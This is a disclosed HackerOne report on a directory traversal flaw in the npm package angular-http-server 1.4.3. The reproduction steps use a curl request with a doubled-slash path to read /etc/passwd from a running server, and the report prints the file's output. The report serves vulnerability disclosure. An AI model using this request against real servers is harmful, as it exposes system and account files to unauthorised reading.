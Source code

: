 # [angular-http-server] Server Directory Traversal

## Report Details
- **Report ID**: 330349
- **URL**: https://hackerone.com/reports/330349
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-03-27T13:21:46.953Z
- **Disclosed**: 2018-04-26T05:42:34.174Z

## Reporter
- **Username**: tungpun
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a Server Directory Traversal vulnerability in angular-http-server.
It allows reading local files on the target server.

# Module

**module name:** angular-http-server
**version:** 1.4.3
**npm page:** `https://www.npmjs.com/package/angular-http-server`

## Module Description

A very simple application server designed for Single Page App (SPA) developers.

It returns a file to the browser if it exists (ex. your-icon.png, index.html) and if can't find a file that matches a given URL it re-directs you to index.html rather than giving a 404 error. The only time it will error out is if it can't locate the index.html file.

Originally designed for my Angular work, this server will work with any Single Page App (SPA) framework that uses a router to change the URL (React, Vue JS, Elm,...).

## Steps To Reproduce:

* Install the module:

`$ npm i angular-http-server`

* Create the index file:

`$ echo "hi" > index.html`

* Start the server:

`$ ./node_modules/angular-http-server/angular-http-server.js -p 6060`

* Using the below request to access the file `/etc/passwd` on the target server:

```
$ curl --path-as-is 'http://127.0.0.1:6060//etc/passwd'

##
# User Database
#
# Note that this file is consulted directly only when the system is running
# in single-user mode.  At other times this information is provided by
# Open Directory.
#
# See the opendirectoryd(8) man page for additional information about
# Open Directory.
##
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
root:*:0:0:System Administrator:/var/root:/bin/sh
...
```

## Supporting Material/References:

* node v8.10.0
* npm 5.6.0
* curl 7.54.0

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

It allows reading local files on the target server

## Attachments
No attachments

